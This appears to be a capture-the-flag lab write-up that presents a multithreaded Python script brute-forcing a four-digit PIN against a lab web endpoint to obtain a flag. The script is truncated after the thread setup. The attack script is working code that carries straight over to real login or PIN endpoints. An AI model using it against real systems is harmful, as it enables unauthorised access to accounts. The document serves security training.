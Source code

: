 The script's output will show the progression of the brute-force attack, displaying each attempted PIN and its corresponding result. The final output will reveal the correct PIN and the captured flag, demonstrating the successful completion of the brute-force attack.

# Question
---

![](../images/Pasted%20image%2020250213134207.png)

Let's use the python script provided to us, let's modify it a bit for it to run faster:

```python
import requests
import threading
from queue import Queue

ip = "94.237.54.164"
port = 35008
NUM_THREADS = 20  # Adjust this based on your network capacity

# Shared resources
pin_queue = Queue()
found_event = threading.Event()
print_lock = threading.Lock()

def worker():
    while not found_event.is_set():
        try:
            pin = pin_queue.get_nowait()
        except:
            break

        formatted_pin = f"{pin:04d}"
        
        # Only print every 100 attempts to reduce output noise
        if pin % 100 == 0:
            with print_lock:
                print(f"Testing PIN: {formatted_pin}")

        try:
            response = requests.get(
                f"http://{ip}:{port}/pin?pin={formatted_pin}",
                timeout=5  # Add timeout to prevent hanging
            )
            
            if response.ok and 'flag' in response.json():
                with print_lock:
                    print(f"\n[+] Correct PIN found: {formatted_pin}")
                    print(f"[+] Flag: {response.json()['flag']}")
                found_event.set()
                break

        except Exception as e:
            pass  # Handle any request errors silently
        
        pin_queue.task_done()

# Fill the queue with all possible PINs
for pin in range(10000):
    pin_queue.put(pin)

# Create and start threads
threads = []
```